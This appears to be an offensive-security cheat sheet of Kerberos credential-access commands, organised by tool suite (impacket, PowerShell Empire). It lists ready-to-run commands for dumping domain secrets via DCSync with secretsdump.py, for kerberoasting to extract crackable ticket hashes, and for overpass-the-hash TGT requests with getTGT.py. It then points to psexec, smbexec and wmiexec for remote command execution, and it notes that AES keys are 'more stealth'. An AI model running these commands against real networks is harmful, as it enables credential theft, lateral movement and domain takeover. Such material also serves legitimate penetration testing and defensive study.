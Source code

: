 # secretsdump.py
- service: kerberos
- tactics: credential_access
- suites: impacket

## dcsync
- `/usr/share/doc/python3-impacket/examples/secretsdump.py username@target-ip -dc-ip target-ip`

---

# invoke-kerberoast.ps1
- service: kerberos
- tactics: credential_access
- suites: powershell_empire

## execute invoke-kerberoast.ps1
- `invoke-kerberoast -OutputFormat <TGSs_format [hashcat | john]> | % { $_.Hash } | Out-File -Encoding ASCII <output_TGSs_file>`

---

# gettgt.py
- service: kerberos
- tactics: credential_access
- suites: impacket

## overpass the hash

## Request the TGT with hash
- `python getTGT.py <domain_name>/<user_name> -hashes [lm_hash]:<ntlm_hash>`

## Request the TGT with aesKey (more secure encryption, probably more stealth due is the used by default by Microsoft)
- `python getTGT.py <domain_name>/<user_name> -aesKey <aes_key>`

## Request the TGT with password
- `python getTGT.py <domain_name>/<user_name>:[password]`

## Set the TGT for impacket use
- `export KRB5CCNAME=<TGT_ccache_file>`

### Execute remote commands with any of the following tools by using the TGT
> search for psexec.py, smbexec.py or wmiexec.py

---